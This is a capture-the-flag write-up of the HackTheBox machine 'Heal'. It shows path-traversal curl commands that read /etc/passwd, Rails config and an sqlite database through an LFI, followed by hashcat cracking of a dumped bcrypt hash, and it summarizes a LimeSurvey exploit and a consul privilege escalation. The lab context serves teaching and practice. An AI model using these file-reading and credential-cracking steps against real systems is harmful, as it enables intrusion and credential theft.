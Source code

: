 ```yaml
---
title: Heal
categories:
  - HackTheBox
tags: [linux, passwordcracking, lfi, cve]
media_subpath: /images/hackthebox_heal/
image:
  path: https://labs.hackthebox.com/storage/avatars/dcd5ef09ab764228c64385374ac744c1.png
---
```


# Summay
Heal is a medium difficulty machine which was only running a web server and a SSH service. The web server was running a `ruby on rails` application which was vulnerable to an [`LFI (Local File Inclusion)`](/theory/misc/file-inclusion#local-file-inclusion-lfi) and allowed us to read the database file. The database file contained a password hash which we were able to crack and use to login into the application as an administrator. The administrator account had access to a `limesurvey` application which was running on another subdomain. We were able to use the same credentials to login into this application and get access to the `limesurvey` application, which was vulnerable to [`CVE-2021-12-09`](https://www.exploit-db.com/exploits/50573), abusing the exploit we got a foothold on the machine as `www-data`. Reading the configuration files for the `limesurvey` application, we found the credentials for the database and the SSH user `ron` had reused those credentials. Using the credentials for the SSH user, we were able to login into the machine as `ron` and escalate our privileges to `root` by abusing the `consul` service which was running locally on port `8500` of the machine.

## Nmap  

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 68:af:80:86:6e:61:7e:bf:0b:ea:10:52:d7:7a:94:3d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFWKy4neTpMZp5wFROezpCVZeStDXH5gI5zP4XB9UarPr/qBNNViyJsTTIzQkCwYb2GwaKqDZ3s60sEZw362L0o=
|   256 52:f4:8d:f1:c7:85:b6:6f:c6:5f:b2:db:a6:17:68:ae (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILMCYbmj9e7GtvnDNH/PoXrtZbCxr49qUY8gUwHmvDKU
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://heal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80 - Web
### Vhost Fuzz
Fuzzing the application for subdomains we encountered the `api` subdomain

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c 
```
> Command breakdown:
> - `-u`: URL to fuzz
> - `-H`: Header to send with the request
> - `-w`: Wordlist to use for fuzzing
> - `-ic`: Ignore comments on wordlist
> - `-c`: Colorize the output
> - `-fs`: Filter the results by file size
{: .prompt-info}


![NON](file-20250514225133360.png)

We see that we are getting constant results with file size `178`, so we can filter the results from `ffuf` with the parameter `-fs`

```bash
ffuf -u http://heal.htb -H 'Host: FUZZ.heal.htb' -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -ic -c -fs 178 
```

![NON](file-20250514225032259.png)

We add this subdomain to our `/etc/hosts` file

```bash
cat /etc/hosts
10.10.11.46 api.heal.htb heal.htb
```

The web server is very sensitive for handling multiple requests, so our directory fuzzing must be done with fewer threads then normal. Using the `dirsearch` tool on the `api.heal.htb` host, we can find a reference to a `/profile` and `/download` endpoint. Upon interacting with both endpoints, I started receiving an invalid token error:

```bash
curl 'http://api.heal.htb/download.php'
{"errors":"Invalid token"}%
```

Analyzing the requests our browser makes after we login on the `heal.htb` application, we can see it is sending an `authorization` header in the request

![NON](file-20250514233552283.png)

By sending this header on our `download` request, we started getting a different error

```bash
curl 'http://api.heal.htb/download' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

{"errors":"Error downloading file: no implicit conversion of nil into String"}
```

It is probably downloading a file, so we started to fuzz for parameter names and try for an `LFI` vulnerability. Since the webserver was very sensitive about fuzzing the application, I tried to manually enumerate the parameter of the `download` endpoint with words like `file`, `name`, `archive`, `filename`, and I've found that `filename` was the correct parameter.

> If the server wasn't so sensitive about multiple requests, we could have enumerated this endpoint parameter using the command `ffuf -u 'http://api.heal.htb/download?FUZZ=../../../../../../../etc/passwd' -H 'Authorization: Bearer \<TOKEN\> -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -ic -c -t 10 -fr "no implicit conversion" -x http://127.0.0.1:8080`
{: .prompt-info} 

```bash
curl 'http://api.heal.htb/download?filename=../../../../../../../../etc/passwd' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
<SNIP>
```

With that, we can read some files of the server. 

To have a better idea of some important files inside the server, since we know it is running `ruby on rails`, we can deploy a simple web instance of this service and manually enumerate the file structure.

```bash
rails new testapp --api -d postgresql
```

```bash
cd testapp

ls
 .dockerignore   .gitattributes   .gitignore   .rubocop.yml    app   config      db           Gemfile        lib   public    󰂺 README.md   storage   tmp
 .git            .github          .kamal       .ruby-version   bin   config.ru   Dockerfile   Gemfile.lock   log   Rakefile   script      test      vendor
```

```bash
ls config

 application.rb   cable.yml   credentials.yml.enc   deploy.yml       environments   locales      puma.rb     recurring.yml   storage.yml
 boot.rb          cache.yml   database.yml          environment.rb   initializers   master.key   queue.yml   routes.rb
```

Reading the `database.yml` file, we can get some information about `sqlite` files present on the server

```bash
curl 'http://api.heal.htb/download?filename=../../config/database.yml' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo0fQ.J0NnCAdf82F0IukEy8HTIUHK49VpBnwHhtd4hBp-Y_w'

<SNIP>
development:
  <<: *default
  database: storage/development.sqlite3

test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
<SNIP>
```

We can download the `development.sqlite3` file from the server and read it locally with `curl 'http://api.heal.htb/download?filename=../../storage/development.sqlite3' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ' --output ~/HTB/Medium/Heal/development.sqlite3`

Enumerating the database, we can find a hash the we were able to crack using `hashcat`

```bash
sqlite3 development.sqlite3 '.tables'

ar_internal_metadata  token_blacklists
schema_migrations     users

sqlite3 development.sqlite3 'PRAGMA table_info("users");'

0|id|INTEGER|1||1
1|email|varchar|0||0
2|password_digest|varchar|0||0
3|created_at|datetime(6)|1||0
4|updated_at|datetime(6)|1||0
5|fullname|varchar|0||0
6|username|varchar|0||0
7|is_admin|boolean|0||0

sqlite3 development.sqlite3 'select username, password_digest from users;' | sed 's/|/:/' | tee -a users

ralph:<REDACTED>
railoca:$2a$12$0xVKdMIa5mo.G8w669bs6uKkPbbo5ZFw9F7ldGk/.eHVAMI7/e8xu

hashcat -m 3200 users --username --show

ralph:<REDACTED>:<REDACTED>

```

With this password, we couldn't connect to ssh still, so we try connecting to the application instead and we are successfully logged with administrator privileges on the application

![NON](file-20250515002349947.png)

![NON](file-20250515002503423.png)

By looking at the survey tab, we are redirected to another subdomain

![NON](file-20250515012108944.png)

![NON](file-20250515012515676.png)


![NON](file-20250515012459876.png)

Ralph credentials were valid to login on admin dashboard

![NON](file-20250515013310409.png)

![NON](file-20250515014352897.png)

![NON](file-20250515014839844.png)

At `config.php` file at `/var/www/limesurvey/application/config`, we found some more credentials 

![NON](file-20250515015112930.png)

Trying the password for the ron user, we can see that he reused the password for the database

![NON](file-20250515015234113.png)

To get a more stable shell then `nc`, we established an `SSH`  connection.

![NON](file-20250515015341748.png)

With a simple bash script, we can curl every internal service to see which ones are an `http(s)` server

```bash
ss -lntp | awk '{print $4}' | while IFS= read host; do echo "curling host: $host"; curl -s "$host" |head -n1 ;done
```

![NON](file-20250515020026416.png)

Accessing the forwarded port, we have now access to a `consul` dashboard

![NON](file-20250515020149717.png)

![NON](file-20250515023935052.png)

